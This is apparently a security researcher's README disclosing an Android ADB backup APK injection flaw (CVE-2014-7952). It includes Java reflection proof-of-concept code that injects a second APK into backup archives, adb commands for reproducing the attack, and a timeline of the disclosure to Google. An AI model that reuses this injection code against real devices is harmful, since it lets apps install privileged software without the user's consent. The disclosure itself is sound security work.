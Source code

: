 # ADB-Backup-APK-Injection
Android ADB backup APK injection vulnerability discovered by and POC created by Imre Rad, SEARCH-LAB Ltd., Hungary.

What is ADB backup/restore?
---------------------------
The Android operating system offers a backup/restore mechanism of installed packages through the ADB utility.
By default, full backup of applications including the private files stored in /data is performed, but this behaviour can be customized by implementing a [BackupAgent](http://developer.android.com/reference/android/app/backup/BackupAgent.html) class. This way applications can feed the backup process with custom files and data.
The backup file created is a simple compressed tar archive with some Android specific headers. Optional encryption is also possible.

APK injection vulnerability
---------------------------
The backup manager, which invokes the custom BackupAgent does not filter the data stream returned by the applications. While a BackupAgent is being executed during the backup process, it is able to inject additional applications (APKs) into the backup archive without the user's consent. **The BackupAgent needs no Android permissions.** Upon restoration of the backup archive, the system installs the injected, additional application (since it is part of the backup archive and the system believes it is authentic) with **escalated privileges**.

So the danger is in a few words: an innocent-looking Android application can install new applications with extra permissions without the user's consent.

The Backup Manager can be exploited through simple reflection to inject the arbitrary additional APK:

```
// package name of the application to be injected. This will be one of the arguments of backupToTar() method
String packageName = "com.searchlab.wifitest"; 

Method backupToTar;
Method getData;
try {
	// looking up the internal Classes
	Class<?> fullbackupClass = Class.forName("android.app.backup.FullBackup");
	Class<?> backupDataOutputClass = Class.forName("android.app.backup.BackupDataOutput");
	
	// fetching reference to the backupToTar method and making it accessible for us
	backupToTar = fullbackupClass.getDeclaredMethod("backupToTar", String.class, String.class, String.class, String.class, String.class, backupDataOutputClass);
	backupToTar.setAccessible(true);		
	
	// we also need getData() method
	getData = FullBackupDataOutput.class.getDeclaredMethod("getData");
	getData.setAccessible(true);
	
	// and now let the magic begin!
	Object backupData = getData.invoke(data);
	backupToTar.invoke(null, packageName, null, null, getFilesDir().toString(), getFilesDir()+"/_manifest", backupData);
	backupToTar.invoke(null, packageName, "a", null, getFilesDir().toString(),getFilesDir()+"/com.searchlab.wifitest-1.apk", backupData);
	
	// that's all, folks
	Log.v("MYBACKUP", "backuptotar invoked!");
	
} catch (Exception e) {
	e.printStackTrace();
}
```

Who is affected?
----------------
The vulnerability resides in the backup mechanism of the Android operating system. Anyone using the adb tool for creating and restoring backups of their handsets might be affected. One could think that command line applications are used by geeks or programmers only, but not necessarily, there are Windows GUI applications which rely on the same technology behind the scenes when creating backups or restoring them.
The malware might come from an innocent looking game without any suspicion as it claims to need no permissions at all. As soon as backup was created, the archive is "infected". The injected application can use any (non-system) permissions, for example starting automatically at boot or sending SMS messages.

Proof of Concept
----------------
In this repository you can find an application along with it's source code which can demonstrate the vulnerabilty.
It was tested on Android 4.4.4 and Android 5.1.1.

Step 1: Install ADB_Backup_Injection.apk (com.searchlab.backupagenttest):

![ADB Backup Injection, custom BackupAgent](https://raw.githubusercontent.com/irsl/ADB-Backup-APK-Injection/master/android-backup-injection-backupagenttest2.png "ADB Backup Injection, custom BackupAgent")

This application *does not require any permissions*.

Step 2: Use the following command to create a backup of this package
```
adb backup -f backup.ab -apk com.searchlab.backupagenttest
```

(You could create a full system backup as well, the exploit would be still successful.)

Step 3 (optional): If you want to examine the backup archive just created, use the [ABE](https://github.com/nelenkov/android-backup-extractor) tool:
```
java -jar abe.jar unpack backup.ab backup.tar
```
![ADB Backup Injection, the tar file with the injected content](https://raw.githubusercontent.com/irsl/ADB-Backup-APK-Injection/master/android-backup-injection-tar-file.png "ADB Backup Injection, the tar file with the injected content")

In the tar file you will find the injected second application (com.searchlab.wifitest).

Step 4: Use the following command to restore the archive:
```
adb restore backup.ab
```

Since the backup.ab file already contains the injected application, it will be restored (installed) as well.

Step 5: Verify that Wifi Test application was indeed installed.
The application runs with android.permission.CHANGE_WIFI_STATE and android.permission.ACCESS_WIFI_STATE permissions to demonstrate that privilege escalation was also possible.

![ADB Backup Injection, injected application](https://raw.githubusercontent.com/irsl/ADB-Backup-APK-Injection/master/android-backup-injection-wifitest.png "ADB Backup Injection, injected application")

CVE
---
The ID CVE-2014-7952 was assigned to this vulnerability.

Affected Versions
-----------------
As of today (2015-07-08), all Android versions are affected, including Android L.

Timeline
--------
SEARCH-LAB Ltd. responsibly reported this threat to the Android security team. At first, Google did not acknowledge the issue being security relevant. Later they kept requesting to hold off publishing as they needed more time for further investigation, but as of today, July 8, 2015 the bug was still not addressed. The most important milestones of the issue are listed in the next lines:

2014-07-14: The vulnerability was disclosed to the Android Security Team

2014-07-28: Google refused to treat the issue as a potential threat

...Couple of additional emails in this thread, Google kept investigating the issue and requested holding off the publication

2014-10-13: Asked Google for status update (and requested a cup or a mug for being patient)

2014-10-15: Google answered that the issue did not get fixed in the L release and requested to hold off publishing it. (Got a promise about asking around for a mug)

...Few more ping-pong emails periodically without any new info (neither a mug)

2015-06-02: Google promised further info in a few days, but it never arrived


Links
-----
http://www.search-lab.hu/about-us/news/110-android-adb-backup-apk-injection-vulnerability
